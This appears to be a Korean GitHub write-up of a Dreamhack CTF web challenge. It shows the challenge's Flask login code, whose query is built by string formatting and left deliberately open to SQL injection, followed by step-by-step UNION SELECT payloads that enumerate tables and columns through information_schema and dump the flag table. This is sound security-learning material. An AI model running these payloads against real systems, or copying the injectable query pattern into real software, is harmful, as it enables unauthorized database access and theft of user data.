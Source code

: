 # ❤Baby_union❤
![js](https://img.shields.io/badge/MySQL-00000F?style=for-the-badge&logo=mysql&logoColor=white) ![js](https://img.shields.io/badge/Visual_Studio_Code-0078D4?style=for-the-badge&logo=visual%20studio%20code&logoColor=white)

## 개요
 - dreamhack web카테고리에서 간단한 union sqli 공격기법에 관한 문제를 풀이한 것입니다.

## Preview
![image](https://github.com/ChCh0i/dreamhack/assets/108965611/264bb018-d30e-4a0f-a599-626d6159c2f6)

 - 문제페이지 접속시 query문과 로그인 폼이 있는것을 확인할수 있습니다.

## Source
 - app.py
```
import os
from flask import Flask, request, render_template
from flask_mysqldb import MySQL

app = Flask(__name__)
app.config['MYSQL_HOST'] = os.environ.get('MYSQL_HOST', 'localhost')
app.config['MYSQL_USER'] = os.environ.get('MYSQL_USER', 'user')
app.config['MYSQL_PASSWORD'] = os.environ.get('MYSQL_PASSWORD', 'pass')
app.config['MYSQL_DB'] = os.environ.get('MYSQL_DB', 'secret_db')
mysql = MySQL(app)

@app.route("/", methods = ["GET", "POST"])
def index():

    if request.method == "POST":
        uid = request.form.get('uid', '')
        upw = request.form.get('upw', '')
        if uid and upw:
            cur = mysql.connection.cursor()
            cur.execute(f"SELECT * FROM users WHERE uid='{uid}' and upw='{upw}';")
            data = cur.fetchall()
            if data:
                return render_template("user.html", data=data)

            else: return render_template("index.html", data="Wrong!")

        return render_template("index.html", data="Fill the input box", pre=1)
    return render_template("index.html")


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```
 - init.sql
```
CREATE DATABASE secret_db;
GRANT ALL PRIVILEGES ON secret_db.* TO 'dbuser'@'localhost' IDENTIFIED BY 'dbpass';

USE `secret_db`;
CREATE TABLE users (
  idx int auto_increment primary key,
  uid varchar(128) not null,
  upw varchar(128) not null,
  descr varchar(128) not null
);

INSERT INTO users (uid, upw, descr) values ('admin', 'apple', 'For admin');
INSERT INTO users (uid, upw, descr) values ('guest', 'melon', 'For guest');
INSERT INTO users (uid, upw, descr) values ('banana', 'test', 'For banana');
FLUSH PRIVILEGES;

CREATE TABLE fake_table_name (
  idx int auto_increment primary key,
  fake_col1 varchar(128) not null,
  fake_col2 varchar(128) not null,
  fake_col3 varchar(128) not null,
  fake_col4 varchar(128) not null
);

INSERT INTO fake_table_name (fake_col1, fake_col2, fake_col3, fake_col4) values ('flag is ', 'DH{sam','ple','flag}');
```

## 취약점
 - app.py를 확인하였을때 query문에 대한 검증을 실시하지않고 bind함수 미사용
 - init.sql을 확인하였을때 flag의 값은 어떠한 테이블의 컬럼내용을 참조하는것을 유추할수 있음
 - union sqli를 활용하여 컬럼을 조회

## payload
 - 'union select all 1,2,3,4....... -- - 숫자를 늘려가며 컬럼명을 유추 ('union select all 1,2,3,4 -- -)
![image](https://github.com/ChCh0i/dreamhack/assets/108965611/6b5765ec-08a2-4aab-9caf-b863afd82168)

 - 데이터베이스 명은 알아도 별 쓸모없으므로 패스하고 table명과 column명을 을 유추
```
'union select all Null,1,1,table_name from information_schema.tables -- -
```
![image](https://github.com/ChCh0i/dreamhack/assets/108965611/dde8c8a5-7d97-442c-b153-0a986da4703b)


 - 테이블명을 조회했을대 onlyflag란 테이블명이 존재 딱봐도 수상하니까 바로 컬럼을 조회
```
'union select all Null,1,1,column_name from information_schema.columns where table_name = 'onlyflag' -- -
```
![image](https://github.com/ChCh0i/dreamhack/assets/108965611/4e0369e0-53a4-4ef8-8718-525052f57820)

 - 컬럼명을 조회했을때 5개의 컬럼이 조회되는것을 확인할수있고 idx는 안봐도 auto_increment 인것을 알수있을것같다.
 - source code init.sql을 보았을때 flag의 값은 어떤 테이블의 컬럼들을 참조하는것을 알수있는데
 - sname는 조회해보았을때 "flag is" 라는 string이었으므로 다른 컬럼들을 순서대로 조회
```
'union select all svalue,sflag,1,sclose from onlyflag -- -
```
![image](https://github.com/ChCh0i/dreamhack/assets/108965611/d53097ed-87bc-4b8a-b7f9-1424de1c75eb)

